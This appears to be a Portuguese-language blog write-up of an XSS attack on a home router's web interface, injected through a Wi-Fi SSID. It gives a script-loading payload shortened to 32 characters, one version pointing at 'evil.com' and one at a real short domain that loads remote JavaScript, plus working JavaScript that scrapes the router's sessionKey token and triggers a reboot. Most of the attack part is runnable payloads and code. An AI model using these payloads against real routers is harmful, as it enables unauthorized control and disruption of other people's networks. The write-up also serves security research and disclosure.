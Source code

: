 Quando encontrei essa página, logo peguei o celular da minha namorada e subi um HotSpot com SSID `‘><script>alert(1)</script>` e PAM ! Alert na cara. Bem legal e tal, mas um alert não é vulnerabilidade. Um grande problema com o SSID é que ele só aceita 32 carácteres, , então como fazer um XSS que realmente faça alguma coisa com só 32 chars ?

### Tamanho importa

A forma mais fácil de diminuir o payload é carregando o JavaScript externamente utilizando o ‘src’, algo como :

				'><script src="http://evil.com/"></script>

Mas isso tem 42 carácteres :( Note uma das coisas que posso controlar é o nome do domínio. Então fui caçar o menor domínio que consegui encontrar para comprar. depois de DUAS HORA PROCURANDO eu consegui o domínio 6ks.me , um achado. Estamos agora em 40 carácteres, temos que remover 8. Outra idéia foi remover o “http://” , mas o browser vai tentar acessar 192.168.0.1/6ks.me . Me lembro de algum CTF que o que vem antes de “://” sempre especifica o protocolo a ser usado ( como em vnc:// magnet:// etc:// ) , e caso o protocolo não fosse especificado ele usaria o protocolo atual. Assim, consigo remover o “http:” , faltando retirar 3 chars. A barra no final também não é necessária, 2 chars. Para finalizar, a maioria dos browsers não se importa se você não colocar aspas no atributo.  
E com **32 chars cravados** :

				'><script src=//6ks.me></script>

Agora conseguimos injetar qualquer JavaScript que precisarmos. Mas o que podemos fazer? Podemos utilizar o [XMLHttpRequest](https://developer.mozilla.org/pt-BR/docs/Web/API/XMLHttpRequest) para fazer qualquer requisição para o roteador. Fico fuçando o roteador e vendo as requisições que ele faz e vejo que depois de fazer alguma alteração importante ele faz um request para “rebootinfo.cgi” para reiniciar o modem.

Uma coisa interessante é que no código de todas as páginas existe uma variável chamada “sessionKey” :

				var sessionKey = '540153280';

Essa key muda em toda requisição e é passada como parâmetro GET em todos os .cgi , se não for válida ele não realiza a ação. Alguma forma tosca de [CSRF Token](https://stackoverflow.com/questions/5207160/what-is-a-csrf-token-what-is-its-importance-and-how-does-it-work#33829607).

Então antes de fazer a request para “rebootar” o modem, eu preciso fazer outro request para uma página qualquer para pegar a sessionKey. Abaixo o JS à ser injetado no browser :

				function reboot_router() {
					// XSS reiniciar modem
					// ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
					// Por quê? Porque é divertido ver um XSS fazer o LED apagar

					xmlhttp=new XMLHttpRequest();
					xmlhttp.open("GET", "/resetrouter.html", false); // GET na interface
					xmlhttp.send();
					var w = xmlhttp.responseText.indexOf("Key") ; // Procurando pelo sessionKey
					var sessionKey = xmlhttp.responseText.slice(w,w+20).match(/'([^']+)'/)[1] ; // Regex porque a key está dentro de aspas

					xmlhttp=new XMLHttpRequest();
					xmlhttp.open("GET", "/rebootinfo.cgi?sessionKey="+sessionKey, false); // Requisita a página de reboot com a sessionKey
					xmlhttp.send();
				}
